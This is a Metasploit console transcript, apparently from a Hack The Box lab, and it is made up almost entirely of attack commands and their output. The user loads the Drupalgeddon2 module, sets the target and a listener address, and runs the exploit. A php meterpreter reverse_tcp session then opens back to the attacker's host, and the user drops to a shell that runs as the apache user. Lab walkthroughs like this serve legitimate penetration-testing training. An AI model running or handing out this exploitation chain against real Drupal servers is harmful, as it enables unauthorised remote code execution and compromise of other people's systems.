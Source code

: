 ```bash


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/webapp/drupal_drupalgeddon2

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > options

Module options (exploit/unix/webapp/drupal_drupalgeddon2):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   DUMP_OUTPUT  false            no        Dump payload command output
   PHP_FUNC     passthru         yes       PHP function to execute
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                        yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT        80               yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                yes       Path to Drupal install
   VHOST                         no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.6         yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (PHP In-Memory)


msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOSTS http://target.htb
RHOSTS => http://target.htb
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set LHOST 10.10.14.143
LHOST => 10.10.14.143
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > exploit

[*] Started reverse TCP handler on 10.10.14.143:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending stage (39927 bytes) to 10.129.48.89
[*] Meterpreter session 1 opened (10.10.14.143:4444 -> 10.129.48.89:58460) at 2022-09-05 11:20:39 -0400

meterpreter > shell
Process 3281 created.
Channel 0 created.
whoami
apache
```
